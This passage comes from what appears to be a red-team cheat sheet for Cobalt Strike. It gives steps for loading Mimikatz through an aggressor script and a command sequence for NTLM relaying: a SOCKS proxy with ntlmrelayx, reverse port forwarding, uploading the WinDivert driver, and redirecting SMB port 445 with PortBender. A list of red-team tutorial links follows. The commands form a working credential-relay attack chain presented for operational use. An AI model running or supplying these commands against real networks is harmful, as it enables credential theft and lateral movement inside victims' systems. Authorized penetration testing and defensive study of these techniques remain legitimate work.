 * Download and extract the .tgz from the Arsenal (Note: The version uses the Mimikatz release version naming (i.e., 2.2.0.20210724)
* Load the mimikatz.cna aggressor script
* Use mimikatz functions as normal

## NTLM Relaying via Cobalt Strike

```powershell
beacon> socks 1080
kali> proxychains python3 /usr/local/bin/ntlmrelayx.py -t smb://<IP_TARGET>
beacon> rportfwd_local 8445 <IP_KALI> 445
beacon> upload C:\Tools\PortBender\WinDivert64.sys
beacon> PortBender redirect 445 8445
```

## References

* [Red Team Ops with Cobalt Strike (1 of 9): Operations](https://www.youtube.com/watch?v=q7VQeK533zI)
* [Red Team Ops with Cobalt Strike (2 of 9): Infrastructure](https://www.youtube.com/watch?v=5gwEMocFkc0)
* [Red Team Ops with Cobalt Strike (3 of 9): C2](https://www.youtube.com/watch?v=Z8n9bIPAIao)
* [Red Team Ops with Cobalt Strike (4 of 9): Weaponization](https://www.youtube.com/watch?v=H0_CKdwbMRk)
* [Red Team Ops with Cobalt Strike (5 of 9): Initial Access](https://www.youtube.com/watch?v=bYt85zm4YT8)
* [Red Team Ops with Cobalt Strike (6 of 9): Post Exploitation](https://www.youtube.com/watch?v=Pb6yvcB2aYw)
* [Red Team Ops with Cobalt Strike (7 of 9): Privilege Escalation](https://www.youtube.com/watch?v=lzwwVwmG0io)
* [Red Team Ops with Cobalt Strike (8 of 9): Lateral Movement](https://www.youtube.com/watch?v=QF_6zFLmLn0)
* [Red Team Ops with Cobalt Strike (9 of 9): Pivoting](https://www.youtube.com/watch?v=sP1HgUu7duU&list=PL9HO6M_MU2nfQ4kHSCzAQMqxQxH47d1no&index=10&t=0s)
* [A Deep Dive into Cobalt Strike Malleable C2 - Joe Vest - Sep 5, 2018 ](https://posts.specterops.io/a-deep-dive-into-cobalt-strike-malleable-c2-6660e33b0e0b)
* [Cobalt Strike. Walkthrough for Red Teamers - Neil Lines - 15 Apr 2019](https://www.pentestpartners.com/security-blog/cobalt-strike-walkthrough-for-red-teamers/)
* [TALES OF A RED TEAMER: HOW TO SETUP A C2 INFRASTRUCTURE FOR COBALT STRIKE – UB 2018 - NOV 25 2018](https://holdmybeersecurity.com/2018/11/25/tales-of-a-red-teamer-how-to-setup-a-c2-infrastructure-for-cobalt-strike-ub-2018/)
* [Cobalt Strike - DNS Beacon](https://www.cobaltstrike.com/help-dns-beacon)
* [How to Write Malleable C2 Profiles for Cobalt Strike - January 24, 2017](https://bluescreenofjeff.com/2017-01-24-how-to-write-malleable-c2-profiles-for-cobalt-strike/)
* [NTLM Relaying via Cobalt Strike - July 29, 2021 - Rasta Mouse](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)